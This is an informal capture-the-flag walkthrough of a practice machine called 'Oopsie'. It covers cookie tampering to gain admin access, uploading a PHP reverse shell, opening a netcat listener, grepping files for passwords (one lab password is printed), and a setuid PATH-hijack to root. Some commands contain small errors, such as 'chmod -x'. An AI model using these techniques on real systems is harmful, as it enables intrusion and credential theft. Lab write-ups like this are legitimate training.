 Oopsie 

started with nmap -sC and -sV  

I noticed an http port and a open ssh port, there were other open ports too that where filtered but they didnt mean anything too me (look into it later maybe)

so we are going to use burp suite to see all the requests made by this website by passing each request through burp proxy 

setup the burp proxy in the browser I am using and refreshed the target website and in the target tab found a login page 

then we tried all the usual username and passwords no dice   then we saw in cookies that there was two one for role and user id   and in the query params for the account we could see they were passing the account id and we tried changing that and got the admin user id   now we edited the cookie and changed role to admin and added the admin user id also, now we are able to access another tab for file which we can  use for php reverse shell 

Now it seems there is already a php reverseshell file in parrot os in the route “/usr/share/webshells/php/php-reverse-shell.php” so we can upload a .php file since there is no validation added for the upload, so we upload it 

now we are going to bruteforce web directories to see where the uploaded file went , we will use gobuster :   gobuster dir --url http://10.129.108.104/ --wordlist /usr/share//wordlists/dirbuster/directory-list-2.3-small.txt -x php
 dir - to search for directory  -x - to check for php files   we can see there is a /upload directory but we dont have access   so we will run our port nc -lvnp 1234 

and when I access the file directly through upload like {website}/uploads/{myfilename}, in the ncat port I can see a dumb shell   now  we use python3 to get a full shell using - python3 -c 'import pty;pty.spawn("/bin/bash”)’.     
then we snoop around so folders and in the “var/www/html/cdn-cgi/login” folder we see some interesting .php file so we search using : “cat * | grep -i passw*” to get the password which is [REDACTED] 

and we found a user called robert when we opened “etc/passwd”   and tried to login as robert using - “su robert” but the password was wrong so we went through another file called db.php 
and there we saw a different password M3g4C0rpUs3r! and now with that password we are able to login and then we find the user flag in the home directory : [redacted],   now we will try to escalate privilege  - we try using sudo -l but he doesnt have access, so we check using id and we see that he is part of a group called bugtracker   find / -group bugtracker 2>/dev/null now we check if there are any files we can access since that user is in that group and we use “2>/dev/null” to specify not to show permission errors   we found a file in path “/usr/bin/bugtracker”   we check what type of file and what privileges using “ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker”   we can now see a setuid in result which means we can execute this file as a root user if even if we are not a root user   dont forget “ set owner user id “ and refer if needed   now we create a file called cat in /temp to fake og cat by adding that to the file   the new cat fake file will contain /bin/sh   then we use chmod -x cat to make it executable then we addexport PATH=/tmp:$PATH so that when the bugtracker accesses cat it will access our fake cat and now when we accesses bugtracker from /temp we get root access  

  root flag - [redacted]
 



 
